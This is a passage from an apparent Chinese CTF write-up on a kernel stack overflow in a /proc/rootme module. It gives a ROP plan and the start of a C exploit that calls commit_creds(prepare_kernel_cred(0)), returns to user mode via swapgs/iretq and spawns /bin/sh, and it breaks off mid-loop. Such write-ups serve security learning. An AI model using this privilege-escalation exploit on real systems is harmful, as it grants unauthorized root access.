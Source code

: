 可以看到是一个简单的栈溢出，`copy_from_user(a, buff, v5);`中的参数都是我们自己控制。

所以ROP的利用思路：

- 通过 ROP 执行 `commit_creds(prepare_kernel_cred(0))`
- 返回用户态，通过 `system("/bin/sh") `等起 shell

### 0x3 EXP

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>
#include <sys/mman.h>
//gcc exp.c -o exp --no-pie --static
size_t user_cs, user_ss, user_rflags, user_sp;

#define KERNCALL __attribute__((regparm(3)))
void *(*prepare_kernel_cred)(void *)KERNCALL = (void *)0xffffffff8109a620;
void (*commit_creds)(void *) KERNCALL = (void *)0xffffffff8109a250;

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
  __asm__("mov %cs, user_cs\n"
          "mov %ss, user_ss\n"
          "mov %rsp, user_sp\n"
          "pushf\n"
          "pop user_rflags\n");
  puts("[*]status has been saved.");
}

void get()
{

  commit_creds(prepare_kernel_cred(0));
  asm(
      "swapgs\n"
      "pushq user_ss\n"
      "pushq user_sp\n"
      "pushq user_rflags\n"
      "pushq user_cs\n"
      "push $shell\n"
      "iretq\n");
}

void shell()
{
  system("/bin/sh");
  printf("getshell!");
}

int main()
{
  save_status();
  int fd = open("/proc/rootme", 2);

  long long buf[0x500];
  for (int i = 0; i <= 10; i++)
  {
    buf[i] = &get;
```